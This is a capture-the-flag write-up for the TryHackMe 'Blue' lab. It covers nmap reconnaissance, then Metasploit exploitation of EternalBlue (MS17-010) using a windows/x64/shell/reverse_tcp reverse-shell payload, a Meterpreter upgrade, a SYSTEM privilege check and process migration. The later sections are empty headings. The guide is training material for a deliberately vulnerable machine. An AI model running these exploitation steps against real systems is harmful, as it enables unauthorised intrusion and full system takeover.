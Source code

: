 # 🧠 TryHackMe Room: Blue 

**Room URL:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)  
**Author:** Schenkee  
**Profile:** [https://tryhackme.com/p/schenkee](https://tryhackme.com/p/schenkee)  

---

## 🧩 Challenge Task Overview

**Objective:**   
This guide will cover the steps required to gain the answer to all question in the Blue room which focuses on the EternalBlue vulnerability in SMB and is the conclusion to the Metasploit module. 

---

## 🧰 Tools I Used  
- nmap
- Metasploit
- Hashcat

---

Firstly, let’s start our target machine and give it a few minutes to start all relevant services. I am using the TryHackME AttackBox lets start this up as well, or alternatively as in my case connect to the TryHackMe VPN to use your own attacking machine. You can even download the VM for offline usage if required.

---

## 🛠️ Recon: 
First let us start with a straightforward nmap scan to see which ports are open and what possible path we have into the target machine.  

We will run nmap via the following ```sudo nmap -sS TARGET_IP```   
#### ⚙️ **Options**  
**sudo** We need to run this command as a privileged user otherwise it will perform a 3-way-handshake and be a TCP Connect Scan -sT.  
**-sS** Tells Nmap to perform a TCP SYN Scan.  

This should return the below information.  
![Recon - Nmap](./Images/Recon%20-%20Nmap.png)  
This will give us enough information to answer the first question: **How many ports are open with a port number under 1000?**  

Now we can see that port 445 is open which is the default port used for Server Message Block (SMB) protocol. SMB is the protocol which is vulnerable to Eternal Blue in certain windows versions. But let’s run another Nmap scan to see if we cannot find anything further to verify that this port is indeed vulnerable.  

We can run a nmap version scan and default scripts against the target port to see if we can return any further useful information.  

This can be done via ```sudo nmap -sS -sV -sC TARGET_IP -p 445```
#### ⚙️ **Options**  
**sudo** We need to run this command as a privileged user otherwise it will perform a 3-way-handshake and be a TCP Connect Scan -sT.  
**-sS** Tells Nmap to perform a TCP SYN Scan.   
**-sV** Tells Nmap to perform a version scan to detect service versions on each port.  
**-sC** Tells Nmap to perform run default scripts on the target.    
**-p** Tells nmap which port to scan. In this case we only need to scan port 445    

This should result in the below output.  
![Recond - Nmap -sV](./Images/Recon%20-%20Nmap%20-sV.png)  
This has returned some very good information namely the OS details. We can see that the system is running ***Windows 7 Professional 7601 Service Pack 1***

Let’s do a google search for any vulnerabilities which might be affecting smb on ***Windows 7 Professional 7601 Service Pack 1*** and as we might be expected we get some good results back confirming that our target is vulnerable to CVE-2017-0144 Eternal Blue.  
![Recond - Google](./Images/Recon%20-%20Google.png)  
We can also see some results returned on ExploitDB  
![Recond - ExploitDB](./Images/Recon%20-%20ExploitDB.png)  
This provides us the answer to the next and final question for the Recon section: ***What is this machine vulnerable to?***  

This concludes our required Reconnisance for the room and we can now move on to gain access to the target machine.

---

## 🛠️ Gain Access: 
In the Recon section we identified that the target machine is vulnerable to MS17_010 aka EternalBlue. 

So, let’s start up Metasploit using ```msfconsole```  

Now let’s see if there are any relevant modules available to us via ```search ms17-010``` this will bring back the below results.  
![Gain Access - search](./Images/Gain%20Access%20-%20search.png)  
In this instance we can use the first result, to load this module type ```use 0```  

This will also now provide us with the answer to our first question in this section: **Find the exploitation code we will run against the machine. What is the full path of the code?**  

Now that we have loaded this module we will need to configure a couple of items. Firstly, lets view our options via ```show options```  
![Gain Access - Initial options](./Images/Gain%20Access%20-%20Initial%20options.png)  
The items we will need to change are **RHOSTS**, **LHOST** and the **Payload**  Noting that only the **RHOSTS** is empty and required to be set for the module. The **LHOST** is part of the payload options.  

Do this via the following commands  
```set RHOSTS TARGET_IP```  
```set LHOST YOUR_MACHINE_IP```  
```set payload windows/x64/shell/reverse_tcp```  

This should give you the information to answer the next question: **Show options and set the one required value. What is the name of this value?**  

Now we can view our options again via ```show options``` and confirm our remote and local host IPs are correct and that our payload has been adjusted as required.  
![Gain Access - options final](./Images/Gain%20Access%20-%20options%20final.png)  

Once everything is set, we can type in ```run``` or ```exploit``` to start the attack on the target machine.  This may take a minute to complete and once done you should have access to the target machine.  
![Gain Access - Esxploit](./Images/Gain%20Access%20-%20Exploit.png)  

Lastly, we can now background this session via ```CTRL + Z``` to proceed onto the next phase of the attack where we will escalate our shell to a meterpreter session.  

To confirm the session has been backgrounded and is still active we can type in ```sessions -i``` into the main msfconsole.  
![Gain Access - Background](./Images/Gain%20Access%20-%20Background.png)  

---

## 🛠️ Escalate: 

Now lets work on gaining a meterpreter session.   

Firstly we will need to load the post exploit module via the following command  ```use post/multi/manage/shell_to_meterpreter```  
![Escalate - Meterpreter](./Images/Escalate%20-%20Meterpreter.png)
This will also provide you the anser to the first question in this section of the room: **What is the name of the post module we will use?**

Once this module has been loaded lets view the options via ```show options``` here we can see that there is one **Required** empty option we need to update.  
This will also provide you the answer to the next question: **Show options, what option are we required to change?**

To set this option input ```set session SESSION_NUMBER``` you can view the your active sessions via ```sessions -i``` and the session number to use is that of the standard shell on the target system. In my case this is session 1.  
![Escalate - Meterpreter Options set](./Images/Escalate%20-%20Meterpreter%20Options%20set.png)  

Once the options have been set input ```run``` to start the module and if all has worked after a minute or so you should have an active meterpreter session.  
This can be confirmed with ```sessions -i``` where there should now be two active sessions on the target.  
![Escalate Meterpreter sessions](./Images/Escalate%20Meterpreter%20sessions.png)

Now follow the guide and confirm the session is running as **SYSTEM** via the ```getsystem``` command and as below it is confirmed the session is already running as **SYSTEM**  
![Escalate - System command](./Images/Escalate%20-%20System%20command.png)

Lastly the guide mentions to migrate to a different process ID. Firstly input ```ps``` to list all running system processes which will provide the **PID** which is used to identify running system processes. This can be useful if the process meterpreter is running as does not have **SYSTEM** privileges.  

It is also worth to check which process the session is actually running as which can be done via ```getpid``` this will provide the running meterpreter session pid and help aid understanding if migration is needed or not. But for the sake of following the guide lets migrate to a different process using ```migrate PID``` 
![Escalate - Pid and Migrate](./Images/Escalate%20-%20Pid%20and%20Migrate.png)  
This may sometimes return errors in which case try a different pid.

Now we have gained access to the target machine and escalated to a meterpreter session, its time to get some information out of the system.

---

## 🛠️ Cracking: 


---

## 🛠️ Find flags!: 


---

## 🧠 Takeaways  
 

---

Thank you for following through my guide of the TryHackMe Blue.  
